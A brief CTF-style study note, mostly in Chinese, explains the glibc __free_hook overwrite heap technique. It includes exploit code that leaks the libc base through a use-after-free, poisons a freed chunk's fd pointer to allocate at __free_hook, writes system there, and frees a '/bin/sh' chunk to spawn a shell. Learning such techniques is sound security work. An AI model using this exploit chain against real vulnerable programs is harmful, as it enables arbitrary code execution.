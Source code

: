 ## 原理：
我们考虑我们 free 函数的执行流程，首先加入我们有一个 `_libc_free`,我们就会检测释放 `free hook`

那么，如果我们能够修改我们的 free_hook 函数指向的内容，相当于篡改了我们的 `free_hook` 函数的功能，那么我们应该就可以直接获得我们的结果。

![[Pasted image 20240211140317.png]]

Firstly, remember that for fast chunks in the fastbin, the location of the next chunk in the bin is specified by the `fd` pointer. This means if chunk `a` points to chunk `b`, once chunk `a` is freed the next chunk in the bin is chunk `b`.

In a double-free, we attempt to **control** `fd`. By overwriting it with an arbitrary memory address, we can tell `malloc()` _where the next chunk is to be allocated_. For example, say we overwrote `a->fd` to point at `0x12345678`; once `a` is free, the _next chunk on the list_ will be `0x12345678`_._

## 条件：
我们可以使用我们的 UAF 漏洞。
## 执行流程
第一步：先利用我们的 UAF 漏洞，把我们的 libc 地址泄露出。
```cpp
create(0,0x500)
create(1,0x10)
delete(0)
show(0)
libc_base=l64()-0x3ebca0(计算得到)
```

第二步：利用我们的 UAF 漏洞，在我们的某个堆释放后，再在对应的位置填入我们的 `free_hook` 地址，**让我们的系统把我们的对应位置误认为是我们的一个堆**。

注意这里，我们要用一个堆块先去占用，我们申请的第二个堆块才是我们的 `free_hook` 的
```python
system,binsh=get_sb()
free_hook=libc_base+libc.sym['__free_hook']

create(2,0x10)
delete(2)
edit(2,p64(free_hook))
# 获取我们的free_hook
create(3,0x10)
create(4,0x10)
edit(4,p64(system))

# 像我们的块中写入binsh
create(5,0x10)
edit(5,'/bin/sh\x00')
delete(5)
```


